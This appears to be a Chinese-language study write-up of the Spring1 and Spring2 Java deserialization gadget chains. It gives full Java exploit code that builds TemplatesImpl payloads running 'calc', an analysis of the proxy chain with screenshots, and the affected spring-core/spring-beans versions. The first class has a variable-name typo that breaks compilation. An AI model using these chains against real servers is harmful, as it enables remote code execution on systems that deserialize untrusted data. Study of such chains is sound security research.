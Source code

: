 # Spring

## exp

```java
package dem0.deserialization.spring;

import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.Gadgets;

import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class spring1 {
    public static void main(String[] args) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl("calc");
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        //代理getObject
        HashMap<String, Object> map = new HashMap();
        map.put("getObject", templates);
        InvocationHandler invocationHandler = (InvocationHandler)constructor.newInstance(Target.class,map);
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
        // 设置ObjectFactoryDelegatingInvocationHandler ==> 被代理的factory
        // this.objectFactory.getObject() ==> templates
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> czconstructor = clazz.getDeclaredConstructors()[0];
        czconstructor.setAccessible(true);
        InvocationHandler  obInvocation= (InvocationHandler)czconstructor.newInstance(factory);
        //obInvocation ===> 本身是一个代理类 this.provider.getType()
        // ==> obInvocation.getType ==> obInvocation.getObject
        // ==> 返回template
        
        //typetemplateproxy (type Template) 既有getType 又有newTransfrom
        // 代理getType
        Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);
        HashMap<String, Object> mp = new HashMap();
        mp.put("getType", typetemplateproxy);
        InvocationHandler newInvocationHandler = (InvocationHandler)constructor.newInstance(Target.class, mp);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProvjavaiderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
            new Class[]{typeProviderClass}, newInvocationHandler);
        Class<?> MTProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = MTProvider.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = MTProvider.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");
        byte[] serialize = Serializer.serialize(objects);
        Deserializer.deserialize(serialize);
    }
}
```



## 分析

### MethodInvokeTypeProvider

在spring的core包里面有。实现了TypeProvider，说明是可以序列化的。

![image-20220513234515123](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513234515123.png)

调用了 ReflectionUtils 先是 `findMethod` 返回 Method 对象然后紧接着调用 `invokeMethod` 反射调用。注意，这里的调用是无参调用。如果可以把这个methodName改成`newTransform`,`this.provider.getType()` 想办法处理成 TemplatesImpl.就可以触发漏洞了。

### ObjectFactoryDelegatingInvocationHandler

`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler` 是 InvocationHandler 的实现类.注释中Reflective InvocationHandler for lazy access to the current target object.（用于延迟访问当前目标对象的反射调用处理程序。）实例化的时候会接受objectFactory一个参数，并且在Invoke的时候调用getObject。

![image-20220513235148796](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513235148796.png)

ObjectFactory 的 getObject 方法返回的对象是泛型的，那就可以可用 AnnotationInvocationHandler 来代理，返回任意对象。

而 ObjectFactoryDelegatingInvocationHandler 自己本身就是代理类，可以用它代理之前的TypeProvider 的 getType 方法。

### 动态代理过程

![image-20220514093123817](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514093123817.png)

![image-20220514093300540](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514093300540.png)

这次`method`是`newTranfrom`.然后`invoke`,触发`typetemplateproxy`

![image-20220514093409438](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514093409438.png)

然后触发

![image-20220514093437655](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514093437655.png)

结束。

```
mp.put("getType", typetemplateproxy); ===> 为什么不直接返回templates呢？ 因为这里涉及到类型转换需要转换到type.
Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);
这也是为什么需要这一步的主要原因。
```

## 依赖

> spring-core : 4.1.4.RELEASE
> spring-beans : 4.1.4.RELEASE
> jdk 1.7

## spring2

![image-20220514094848697](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514094848697.png)

![image-20220514094900102](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220514094900102.png)

```java
JdkDynamicAopProxy ==> ObjectFactoryDelegatingInvocationHandler
```

```java
package dem0.deserialization.spring;

import org.springframework.aop.TargetSource;
import org.springframework.aop.framework.AdvisedSupport;
import ysoserial.payloads.util.Gadgets;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.lang.reflect.Type;
import java.util.HashMap;

public class spring2 {
    public static void main(String[] args) throws Exception{
        final Object templates = Gadgets.createTemplatesImpl("calc");
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        //代理getObject
        HashMap<String, Object> map = new HashMap();
        map.put("getTarget", templates);
        InvocationHandler invocationHandler = (InvocationHandler)constructor.newInstance(Target.class,map);
        TargetSource targetSource = (TargetSource) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{TargetSource.class}, invocationHandler);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTargetSource(targetSource);
        // 设置ObjectFactoryDelegatingInvocationHandler ==> 被代理的factory
        // this.objectFactory.getObject() ==> templates
        Class<?>       clazz          = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> czconstructor = clazz.getDeclaredConstructors()[0];
        czconstructor.setAccessible(true);
        InvocationHandler  obInvocation= (InvocationHandler)czconstructor.newInstance(advisedSupport);


        //obInvocation ===> 本身是一个代理类 this.provider.getType()
        // ==> obInvocation.getType ==> obInvocation.getObject
        // ==> 返回template

        //typetemplateproxy (type Template) 既有getType 又有newTransfrom
        // 代理getType
        Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);


        HashMap<String, Object> mp = new HashMap();
        mp.put("getType", typetemplateproxy);
        InvocationHandler newInvocationHandler = (InvocationHandler)constructor.newInstance(Target.class, mp);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
            new Class[]{typeProviderClass}, newInvocationHandler);

        Class<?> MTProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = MTProvider.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Templates.class.getDeclaredMethod("newTransformer"), 0);
//        Field field   = MTProvider.getDeclaredField("methodName");
//        field.setAccessible(true);
//        field.set(objects, "newTransformer");
//        byte[] serialize = Serializer.serialize(objects);
//        Deserializer.deserialize(serialize);
    }
}

```

